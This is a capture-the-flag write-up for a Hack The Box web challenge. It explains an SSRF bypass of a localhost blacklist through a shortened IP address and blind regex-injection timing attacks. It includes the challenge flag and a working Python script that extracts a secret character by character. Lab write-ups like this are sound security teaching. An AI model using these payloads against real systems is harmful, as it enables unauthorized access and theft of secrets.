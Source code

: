 # [ ExpressionalRebel ](#)

### Description:
* We created created an AI a couple years ago, but recently became self aware and now is trying to erase humanity, could you stop it?

### Objective:
* RegexInjection

### Difficulty:
* `Medium`

### Flag:
* `HTB{b4cKtR4ck1ng_4Nd_P4rs3Rs_4r3_fuNnY}`


### Release:
* [release/web_expressionalrebel.zip](release/web_expressionalrebel.zip) (`e8fc682c002a95501d1c836b234c6b891e2983ff53a29390ac9caf53fdd287a9`)

## Challenge Write-up 📝

### Application overview

Opening the application homepage it displays a webpage with a form where we can submit a [CSP](https://developer.mozilla.org/es/docs/Web/HTTP/CSP):

![Homepage](images/README/homepage.png)

After submitting the default CSP provided by the website a short evaluation of how secure that CSP is:
![CSP Evaluated](images/README/cspevaluated.png)

Additionally there is a `/deactive` endpoint but we don't seem to have access:
![Access Denied](images/README/denied.png)

### Analyzing the source code

We can get the flag on the forbidden endpoint, here its the source code:
```javascript
router.get('/deactivate',isLocal, async (req, res) => {
	const { secretCode } = req.query;
	if (secretCode){
		const success = await validateSecret(secretCode);
		res.render('deactivate', {secretCode, success});
	} else {
		res.render('deactivate', {secretCode});
	}
});
```

Where the flag gets compared on `validateSecret`:
```javascript
const validateSecret = async (secret) => {
    try {
        const match = await regExp.match(secret, env.FLAG)
        return !!match;
    } catch (error) {
        return false;
    }
}
```

However the `/deactivate` endpoint seems to not be accessible, at least directly. Here is the middleware that is stopping us:
```javascript
module.exports = function isLocal(req, res, next) {
    if(req.socket.remoteAddress === '127.0.0.1' && req.header('host') === '127.0.0.1:1337'){
		next()
	} else {
		res.status(401);
		res.render('unauthorized');
	}
};
```

Interestingly enough `validateSecret` is vulnerable to RegexInjection which will be later discussed.

The second piece of the puzzle comes from the `/api/evaluate` endpoint, here is the source code:
```javascript
router.post('/evaluate', async (req, res) => {
	const { csp } = req.body;
    try {
        cspIssues = await evaluateCsp(csp);
        res.json(cspIssues)
            
    } catch (error) {
        res.status(400).send();
    }
})
```

If we take a deeper look to `evaluateCsp` it seems to have a SSRF vulnerability:
```javascript
const checkReportUri = async uris => {
    if (uris === undefined || uris.length < 1) return
    if (uris.length > 1) {
        return new Finding(405, "Should have only one report-uri", 100, 'report-uri')
    }    
    if(await isLocalhost(uris[0])) {
        return new Finding(310, "Destination not available", 50, 'report-uri', uris[0])
    }
    if (uris.length === 1) {
        try {
            available = await httpGet(uris[0])

        } catch (error) {
            return new Finding(310, "Destination not available", 50, 'report-uri', uris[0])
        }
    }

    return
}

const evaluateCsp = async csp => {
    const parsed = new CspParser(csp).csp;
    const reportUris = parsed.directives['report-uri'];

    let evaluatedCsp = new CspEvaluator(parsed).evaluate();
    reportUriFinding = await checkReportUri(reportUris)
    if (reportUriFinding) evaluatedCsp.push(reportUriFinding)
    evaluatedCsp = cspReducer(evaluatedCsp);
    return evaluatedCsp;
}
```

Nevertheless, we have to bypass the `isLocalhost` check:
```javascript
const isLocalhost = async (url) => {
    let blacklist = [
        "localhost",
        "127.0.0.1",
    ];
    let hostname = parse(url).hostname;
    return blacklist.includes(hostname);
};
```

### Bypassing the blacklist

It's checking the hostname using the old [NodeJS URL API](https://nodejs.org/api/url.html#legacy-url-api) but http builting module uses the new [NodeJS WHATWG URL API](https://nodejs.org/api/url.html#the-whatwg-url-api). This leads to a difference in how the blacklist and the actual http request parses the hostname so we may be able to bypass it. Another thing to bypass is the HOST header that need to be `127.0.0.1:1337`. All this conditions can be bypassed using CIDR IPs like `http://127.0.1:1337`.

We can check that it worked since when we add a `report-uri` that is blacklisted it displays a new issue:

![Blacklisted](images/README/blacklisted.png)

Despite when we use de CIDR IP it doesn't show:

![Allowed](images/README/allowed.png)

### Blind Regex Injection

First of all Regex Injection occurs when user input it's used to build a regular expression. That can be used to cause a DoS, because of backtracking.

To find a match, the regex engine will consume characters one by one. When a partial match begins, the engine will remember the start position so it can go back in case the following characters don't complete the match.

However that may cause "catastrophic backtracking" when the number of combinations is big enough, and most (not optimized) engines will try to explore all the paths and will take an eternity to try to find a match or throw a timeout exception.

We know can use the time limit on the regular expression to generate a boolean if a particular character matches our needs. A sample regex would be:
```
^(?=HTB{a)(((([a-zA-Z0-9{_]+)*)*)*)$
```

That example would cause a catastrophic backtracking,hence taking some time to get a response back from the server, if the flag starts with `HTB{A`.

### Solution

Once we know how we can get the flag character by character, created a sample script to automate it:
```
#!/usr/bin/env python3
import requests
from string import ascii_letters, digits

def makeRequest(flag):
    hostURL = "http://127.0.0.1:1337"   # Change to live version

    url = f"{hostURL}/api/evaluate"
    payload = f"^(?={flag})(((([a-zA-Z0-9{{_]%2B)*)*)*)$"
    headers = {"Content-Type": "application/json"}

    json={"csp": f"img-src https: data:;foobar-src 'foobar';report-uri http://127.0.1:1337/deactivate?secretCode={payload};"}
    r = requests.post(url, headers=headers, json=json)
    return r

def get_flag():
    flag = 'HTB{'
    dictionary = ascii_letters + digits + '_!}'
    while flag[-1] != '}':
        for char in dictionary:
            r = makeRequest(flag+char)
            time = r.elapsed.total_seconds()
            if time > 2:
                flag += char
                break
    print(flag)


get_flag()
```